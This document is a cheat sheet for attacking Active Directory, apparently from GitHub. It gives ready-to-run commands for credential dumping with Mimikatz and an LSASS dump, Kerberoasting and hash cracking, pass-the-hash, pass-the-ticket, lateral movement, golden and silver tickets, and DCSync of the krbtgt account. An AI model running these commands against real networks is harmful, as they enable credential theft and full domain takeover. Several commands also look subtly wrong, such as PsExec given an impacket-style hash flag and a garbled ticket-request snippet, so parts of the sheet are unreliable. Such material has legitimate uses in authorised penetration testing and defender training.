 Here’s a cheat sheet for **Active Directory Exploitation**:

### **Active Directory Exploitation Cheat Sheet**

#### **1. Enumeration**

- **Find Domain Controllers**:
  
  ```powershell
  nltest /dclist:domain_name
  ```

- **List Domain Trusts**:
  
  ```powershell
  nltest /domain_trusts
  ```

- **Query Domain and Forest Functional Levels**:
  
  ```powershell
  Get-ADForest | Select-Object ForestMode
  Get-ADDomain | Select-Object DomainMode
  ```

- **Enumerate AD Users**:
  
  ```powershell
  Get-ADUser -Filter * -Properties SamAccountName, DisplayName, Mail, MemberOf
  ```

- **Enumerate AD Groups**:
  
  ```powershell
  Get-ADGroup -Filter * -Properties Name, Description
  ```

- **Enumerate AD Computers**:
  
  ```powershell
  Get-ADComputer -Filter * -Properties Name, OperatingSystem, LastLogonDate
  ```

- **Enumerate AD Domain Admins**:
  
  ```powershell
  Get-ADGroupMember -Identity "Domain Admins"
  ```

- **Enumerate AD Service Principal Names (SPNs)**:
  
  ```powershell
  Get-ADUser -Filter { ServicePrincipalName -ne "$null" } -Properties ServicePrincipalName
  ```

#### **2. Credential Dumping**

- **Dump Hashes Using Mimikatz**:
  
  ```powershell
  sekurlsa::logonpasswords
  ```

- **Dump Kerberos Tickets**:
  
  ```powershell
  sekurlsa::tickets
  ```

- **Extract NTLM Hashes**:
  
  ```powershell
  lsadump::lsa /patch
  ```

- **Dump Credentials from LSASS**:
  
  ```powershell
  .\Procdump.exe -accepteula -ma lsass.exe lsass_dump.dmp
  ```

  Load the dump in Mimikatz:
  
  ```powershell
  sekurlsa::minidump lsass_dump.dmp
  sekurlsa::logonpasswords
  ```

#### **3. Kerberoasting**

- **Request Service Tickets**:
  
  ```powershell
  Add-Type -AssemblyName System.IdentityModel
  $Context = New-Object System.IdentityModel.Tokens.KerberosSecurityTokenProvider $UserName, $Password, $DomainName
  $Token = $Context.GetToken($Null)
  $Ticket = $Token.GetRequest()
  ```

- **Extract and Crack Service Ticket Hashes**:
  
  ```powershell
  Invoke-Kerberoast -OutputFormat Hashcat | Out-File -Encoding ASCII kerberoast.txt
  ```

- **Crack Hashes with Hashcat**:
  
  ```sh
  hashcat -m 13100 kerberoast.txt wordlist.txt
  ```

#### **4. Pass-the-Hash (PtH) Attacks**

- **Using Mimikatz for PtH**:
  
  ```powershell
  sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:cmd.exe
  ```

- **Remote Execution with PsExec**:
  
  ```sh
  psexec.exe -hashes :HASH -u DOMAIN\USERNAME \\TARGET cmd.exe
  ```

#### **5. Pass-the-Ticket (PtT) Attacks**

- **Export a Ticket from Mimikatz**:
  
  ```powershell
  kerberos::list /export
  ```

- **Import a Ticket with Mimikatz**:
  
  ```powershell
  kerberos::ptt ticket.kirbi
  ```

#### **6. Lateral Movement**

- **Using WMI for Lateral Movement**:
  
  ```powershell
  Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c dir" -ComputerName TARGET_IP -Credential (Get-Credential)
  ```

- **Using PsExec**:
  
  ```sh
  psexec.exe \\TARGET_IP -u USERNAME -p PASSWORD cmd.exe
  ```

- **PowerShell Remoting**:
  
  ```powershell
  Enter-PSSession -ComputerName TARGET_IP -Credential (Get-Credential)
  ```

#### **7. Privilege Escalation**

- **Enumerate Privileged Groups**:
  
  ```powershell
  Get-ADGroupMember -Identity "Administrators"
  Get-ADGroupMember -Identity "Domain Admins"
  ```

- **Identify Kerberos Delegation**:
  
  ```powershell
  Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
  ```

- **Exploit GPO for Privilege Escalation**:
  
  ```powershell
  Invoke-GPOAddAdmin -AccountName "DOMAIN\Username" -TargetGPOName "GPOName"
  ```

- **SID History Injection**:
  
  ```powershell
  mimikatz # sid::patch
  mimikatz # sid::add /sid:S-1-5-21-... /user:USERNAME
  ```

#### **8. Golden Ticket Attack**

- **Create a Golden Ticket**:
  
  ```powershell
  kerberos::golden /user:USERNAME /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:HASH /id:500
  ```

- **Use the Golden Ticket**:
  
  ```powershell
  kerberos::ptt golden_ticket.kirbi
  ```

#### **9. Silver Ticket Attack**

- **Create a Silver Ticket**:
  
  ```powershell
  kerberos::golden /domain:DOMAIN /sid:S-1-5-21-... /target:TARGET /service:cifs /rc4:HASH /user:USERNAME /id:500
  ```

- **Use the Silver Ticket**:
  
  ```powershell
  kerberos::ptt silver_ticket.kirbi
  ```

#### **10. DCSync Attack**

- **Dump NTLM Hashes with DCSync**:
  
  ```powershell
  lsadump::dcsync /user:DOMAIN\krbtgt
  ```

- **Perform DCSync with PowerView**:
  
  ```powershell
  Invoke-DCSync -UserName "krbtgt"
  ```


